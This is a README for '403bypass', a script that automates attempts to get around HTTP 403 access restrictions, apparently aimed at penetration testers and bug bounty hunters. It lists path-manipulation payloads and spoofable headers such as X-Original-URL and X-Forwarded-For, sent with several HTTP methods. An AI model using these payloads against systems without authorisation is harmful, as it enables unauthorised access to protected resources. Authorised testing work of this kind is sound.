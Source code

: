 # 403bypass

A tool that automates 403 bypassing techniques. 
The script ignores responses where the status code is equal to 404 ot 403, because of that, the output can be a bit a large.

# Usage

```bash
echo "https://target.com/this/is/a/403/page" | 403bypass
```

```bash
cat urls.txt | 403bypass
```

# Installation

1 - Install httpx (https://github.com/projectdiscovery/httpx) (used for http validaton and status code/response size grabbing)

2 - `curl https://raw.githubusercontent.com/felipecaon/403bypass/main/403bypass.sh > /usr/local/bin/403bypass`

3 - `chmod +x /usr/local/bin/403bypass`

# Workflow

Generates a list of known payloads:

```
http://example.com
http://example.com/.
http://example.com/./
http://example.com/*
http://example.com..;/
http://example.com;/
http://example.com/%20
http://example.com/%2e
http://example.com/~
http://example.com/%09
http://example.com/.json
http://example.com/<encoded>
http://example.com.json
http://<domain-api>.com
http://example.com/.;/
http://example.com/#
http://example.com/?gg
http://example.com/%20/
http://example.com/%2e/
http://example.com/./
http://example.com//
https://example.com
```

The payloads above are requested using `GET`, `POST` and `PUT` methods. Additionaly, every request is made using a potentially vulnerable header from the list:

## Headers:
```
X-Forwarded-For
X-Forwarded-Host
X-Custom-IP-Authorization
X-Custom-IP-Authorization+..;/
X-Original-URL
X-Rewrite-URL
X-Originating-IP
X-Remote-IP
X-Client-IP
X-Host
X-Remote-Addr
```

# Contributing

Feel free to open issue or PR with additional payloads.


# Credits

Main structure is made by Raywando, https://github.com/Raywando/4xxbypass
For a more complete set, go to https://github.com/Dheerajmadhukar/4-ZERO-3/blob/main/403-bypass.sh
